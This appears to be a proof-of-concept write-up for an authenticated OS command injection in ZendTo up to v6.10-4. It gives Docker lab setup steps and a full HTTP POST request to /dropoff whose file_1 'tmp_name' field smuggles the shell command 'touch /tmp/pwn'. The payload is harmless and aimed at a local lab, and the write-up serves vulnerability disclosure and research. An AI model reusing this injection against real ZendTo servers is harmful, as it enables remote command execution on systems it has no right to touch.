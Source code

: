# ZendTo <= v6.10-4 Authenticated OS Command Injection

## Lab setup

Build the docker container using the following command:

```
$ docker build -t zendto-container .
$ docker run -d -p 443:443 zendto-container
```

Once done, drop a shell into the container. Your container name might be different, please adjust accordingly.

```
$ docker ps
CONTAINER ID   IMAGE              COMMAND                  CREATED          STATUS          PORTS                               NAMES
858531d955e1   zendto-container   "/entrypoint.sh"         14 minutes ago   Up 14 minutes   0.0.0.0:443->443/tcp                charming_raman

$ docker exec -it charming_raman /bin/bash
```

Next, execute the below commands and follow the prompt (just need to press `Enter`) to complete the installation, you don't need to reboot the box. 

```
root@858531d955e1:/# cd /opt/install.ZendTo/
root@858531d955e1:/opt/install.ZendTo# ./install.sh

[...SNIP...]

Well, it looks like we made it. Yay!

You will need to reboot the server and view the home page once
before going any further.
```

Finally, we will: 

- disable `reCAPTCHA`
- add a ZendTo user
- enable ClamAV

```
root@858531d955e1:/# nano /opt/zendto/config/preferences.php
  'captcha' => '', # Line 573, remove 'google'

root@858531d955e1:/# /opt/zendto/bin/adduser /opt/zendto/config/preferences.php 'jay' 'jay@prjblk.io' 'Jay Ng' 'Prjblk'
root@858531d955e1:/# service clamav-daemon start
```

Once done, we should see port `443` is running on our host machine. To access ZendTo, we might need to add the `docker` host to local dns file on `kali` as below.

```
$ tail -1 /etc/hosts
127.0.0.1       858531d955e1

$ curl -k https://858531d955e1
```

Done :)!. Please note that some parts of the lab won't be fully functional but this is enough to demonstrate our PoC. Any troubles, please send an us an email to icantsetuplab@prjblk.io.

## Exploitation

Send the following request to create a `/tmp/pwn` file.

```
POST /dropoff HTTP/1.1
Host: 858531d955e1
Cookie: zendto-session=[OMITTED]
Content-Length: 2297
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryluj4shZr0G7o5tcO
Origin: https://858531d955e1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="Action"

dropoff
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="auth"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="req"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="senderOrganization"

Prjblk
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="encryptPassword"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="chunkName"

cZwpzbee4knd4jJb3BS7evhVZJxJ8Ssd
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="subject"

Jay Ng has dropped off files for you
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="recipName_1"

test
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="recipEmail_1"

test@prjblk.io
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="recipient_1"

recipient_id
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="note"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="checksumFiles"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="confirmDelivery"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="informRecipients"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="informPasscode"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="lifedays"

14
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="lifeexpiry"

2025-04-01 11:07
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="desc_1"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="file_1"

{"name":"test.php","type":"","size":"34","tmp_name":"1;touch /tmp/pwn;","error":0}
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="desc_1"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="sentInChunks"

1
------WebKitFormBoundaryluj4shZr0G7o5tcO--
```
